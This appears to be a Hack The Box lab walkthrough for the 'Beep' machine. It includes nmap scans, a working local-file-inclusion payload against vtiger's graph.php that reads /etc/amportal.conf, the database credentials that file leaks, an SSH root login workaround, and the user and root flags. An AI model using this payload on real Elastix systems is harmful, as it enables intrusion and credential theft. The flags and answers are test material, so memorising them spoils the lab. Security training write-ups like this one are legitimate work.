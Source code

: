 
# HTB Walkthrough - Beep

**Machine Name**: Beep  
**Target IP**: 10.129.229.183

---

## Task 1: Linux Distribution

**Scan Command**:
```
nmap -sV -sC 10.129.229.183
```

**Result**:
```
http-server-header: Apache/2.2.3 (CentOS)
```

**Answer**: `CentOS`

---

## Task 2: TLS Version on Port 443

**Scan Command**:
```
nmap --script ssl-enum-ciphers -p 443 10.129.229.183
```

**Result**:
```
TLSv1.0
```

**Answer**: `1.0`

---

## Task 3: Webserver Software on 443

**Browser Access**:
```
https://10.129.229.183/
```

**Result**: 
```
Elastix - Login page
```

**Answer**: `Elastix`

---

## Task 4: LFI Vulnerable Endpoint

**Exploit Reference**: https://www.exploit-db.com/exploits/37637

**Endpoint**:
```
/vtigercrm/graph.php
```

**Example Exploit**:
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

**Answer**: `/vtigercrm/graph.php`

---

## Task 5: FreePBX Config File with DB Credentials

**LFI Result**:
Accessing `/etc/amportal.conf` reveals:

```
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
```

**Answer**: `amportal.conf`

---

## Task 6: SSH Key Exchange Compatibility Fix

**Error**:
```
Unable to negotiate: no matching key exchange method found.
```

**Fix**:
```
ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 root@10.129.67.153
```

**Answer**: `-oKexAlgorithms=+diffie-hellman-group14-sha1`

---

## User Flag

**Command**:
```
cat /home/fanis/user.txt
```

**Answer**:
```
c5b6bb43f6d2a1f1d84b698e0e32dcbf
```

---

## Root Flag

**Command**:
```
cat /root/root.txt
```

**Answer**:
```
18c457ee30e36677778fe36b29518c8d
```

---
